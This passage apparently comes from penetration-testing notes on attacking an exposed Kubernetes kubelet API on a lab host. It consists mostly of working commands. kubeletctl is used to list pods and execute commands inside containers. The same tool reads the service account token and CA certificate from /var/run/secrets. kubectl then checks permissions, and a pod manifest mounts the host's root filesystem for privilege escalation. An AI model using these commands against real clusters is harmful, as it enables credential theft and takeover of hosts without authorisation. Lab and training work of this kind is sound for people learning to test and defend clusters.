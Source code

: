 * This information includes, `names`, `namespaces`, `creation timestamps` and `container images` of the pods.
* The `last appiled configuration` can contain confidential information regarding the container images. 
* Identifying images and their versions used in the cluster can enable us to identify known vulnerabilities and exploit them.
* Name space information can provide insights into how the pods and resources are arranged within the cluster. 
* Use metadata such as `uid` and `resource verison` to perform reconnaissance and recognise targets for futher attacks.
##### Kubeletctl - Extracting Pods
```shell
kubeletctl -i --server 10.129.10.11 pods
```
##### Kubelet API - available commands
```shell
kubeletctl -i --server 10.129.10.11 scan rce
```
##### Kubelet API - executing commands 
```shell
kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```
#### Privilege Escalation 
* Use a tool called [kubeletctl](https://github.com/cyberark/kubeletctl) to obtain service account's token and certificates. 
##### Extracting Tokens
```shell
 kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```
##### Extracting Certificates
```shell
kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
```
##### List Privileges
```shell
export token=`cat k8.token`
```
```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```
Look for privileges such as `get`, `create`, `list`
##### Create a new container
* If we can create a container, we can mount the entire root file system in the containers `/root`
###### Example YAML
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
```